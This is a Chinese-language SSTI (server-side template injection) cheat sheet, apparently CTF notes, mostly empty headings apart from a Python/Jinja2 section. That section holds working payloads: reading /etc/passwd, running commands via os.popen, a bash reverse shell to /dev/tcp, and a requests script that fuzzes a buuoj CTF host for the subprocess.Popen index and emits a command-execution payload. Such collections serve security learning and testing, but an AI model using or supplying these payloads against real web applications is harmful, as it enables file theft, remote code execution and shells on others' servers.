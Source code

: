 # SSTI 模板注入漏洞（Todo）

## Python

任意文件读
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}{% endif %}{% endfor %}
```

rce
```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
```


```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('bash -i >& /dev/tcp/127.0.0.1/233 0>&1') %}1{% endif %}
```

```python
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

``subprocess.Popen`` fuzz脚本

```python
import requests

url = "http://38ab3221-49f0-415f-98bc-65b4744640b8.node3.buuoj.cn/"

index = 0
for i in range(100, 1000):
    #print i
    payload = "{{''.__class__.__mro__[2].__subclasses__()[%d]}}" % (i)
    params = {
        "search": payload
    }
    #print(params)
    req = requests.get(url,params=params)
    #print(req.text)
    if "subprocess.Popen" in req.text:
        index = i
        break


print("index of subprocess.Popen:" + str(index))
print("payload:{{''.__class__.__mro__[2].__subclasses__()[%d]('ls',shell=True,stdout=-1).communicate()[0].strip()}}" % i)
```

### Flask/Jinja2

### Django

### Tornado

## Java

### JSP

### FreeMarker

### Velocity

## PHP

### Twig

### Smarty

参考资料:

https://www.jianshu.com/p/eb8d0137a7d3

### Blade

## Ruby

```
$~:is equivalent to ::last_match;

$&:contains the complete matched text;

$`:contains string before match;

$':contains string after match;

$1, $2 and so on contain text matching first, second, etc capture group;

$+:contains last capture group.
```

### ERB



## 参考资料

一篇文章带你理解漏洞之SSTI漏洞:

[https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E)


Templates Injections Payload:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection